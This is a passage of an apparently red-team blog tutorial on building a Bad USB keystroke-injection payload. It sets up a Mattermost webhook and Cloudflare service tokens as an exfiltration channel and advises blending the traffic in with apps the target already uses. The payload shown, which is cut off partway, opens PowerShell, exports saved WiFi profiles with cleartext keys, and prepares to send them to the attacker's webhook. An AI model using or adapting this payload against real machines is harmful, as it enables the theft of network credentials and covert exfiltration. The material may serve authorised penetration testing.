 After doing this we are presented with the webhook url that we will use later on in the bad USB script.

> In this example we are using Mattermost for our data exfil, in an actual engagement research should be conducted to see
what applications the target is using in an attempt to blend in. Popular messaging apps like Slack and Discord both support
incoming webhooks and may blend in better to normal network traffic.

#### Cloudflare Zero Trust Service Authentication

To create the service authentication tokens we need for this incoming webhook to connect back to our self-hosted 
Mattermost instance, we first log into our Cloudflare Zero Trust dashboard and select Access > Service Auth. After that,
select "+ Create Service Token".

Fill in the name and select a duration for the token and click "Generate token"

{{< img src="cf_1.png" alt="Service token creation screen" size-method="Fit" size-format="800x600 webp" position="center" >}}

We can see the client ID and client secret that we need for our bad USB script. Make a note of both for later and click
"Save".

The last thing to do for Cloudflare is to navigate to our Mattermost application configuration and add the newly created
service auth token to its policy. Once in the application policy view, select "+ Add a policy".

Fill in the name of the policy, and select "Service Auth" for the action. In the "Create additional rules" section, select
"Service Token" for the selector and the name of the service token for the "Value".

{{< img src="cf_2.png" alt="Mattermost application policy creation" size-method="Fit" size-format="1200x1000 webp" position="center" >}}

#### Bad USB

We now have everything we need to configure the bad USB payload! The payload is shown below:

```BadUSBscript
REM Title: wifi-exfil
 REM Author: AERMORed Team Pandas
 REM Description: Extracts the SSID and WiFi PSKs to xml files and send them to a Mattermost webhook endpoint.
 REM_BLOCK Usage:
     ...
 END_REM
 
 GUI r
 DELAY 2000
 STRING powershell
 ENTER
 DELAY 2000
 STRING $webhookUri = '<value>' (Mattermost webhook URL from earlier)
 ENTER
 STRING $guid = [guid]::NewGuid().ToString()
 ENTER
 STRING New-Item -Path $env:temp -Name $guid -ItemType "directory"
 ENTER
 STRING Set-Location -Path "$env:temp/$guid"
 ENTER
 STRING netsh wlan export profile key=clear;
 ENTER
 STRING Set-Location -Path $env:temp
 ENTER
 STRING $headers = @{
```

[^1]: https://developers.mattermost.com/integrate/webhooks/incoming/
[^2]: https://developers.cloudflare.com/cloudflare-one/identity/service-tokens/
[^3]: https://docs.hak5.org/hak5-usb-rubber-ducky/